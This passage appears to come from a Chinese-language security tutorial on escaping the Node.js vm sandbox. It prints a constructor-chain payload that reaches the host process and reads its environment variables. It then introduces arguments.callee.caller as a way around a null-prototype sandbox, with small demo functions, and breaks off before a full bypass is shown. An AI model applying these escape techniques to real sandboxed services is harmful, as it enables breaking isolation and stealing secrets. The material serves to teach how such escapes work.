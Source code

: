 ```plain
const vm = require("vm");

const sandbox = Object.create(null);

vm.createContext(sandbox);

const code = "this.constructor.constructor('return process')().env";
console.log(vm.runInContext(code,sandbox));
```

[![](assets/1706496096-98574a49327438e758c2d096b500404d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140533-eabc9f4c-bc10-1.png)

可以发现报错了，但是我们这里只是因为获取不到任何对象而不是不能利用

可以参考[Escaping the vm sandbox · Issue #32 · patriksimek/vm2 (github.com)](https://github.com/patriksimek/vm2/issues/32)

利用==arguments.callee.caller==来进行绕过

arguments.callee 是 arguments 对象的一个成员，它的值为"正被执行的 Function 对象"

```plain
function Foo(){
    console.log(arguments.callee)
}
Foo();//Foo
```

arguments.callee.caller 调用当前函数的外层函数

```plain
function Foo(){
    console.log(arguments.callee.caller)
}
Foo();//anonymous
```

arguments.callee.caller 实际上是返回函数的调用者，我们之前沙箱逃逸利用的方法其实就是通过 global 中对象，并调用其方法，其实看到和 arguments.callee.caller 还是蛮像的
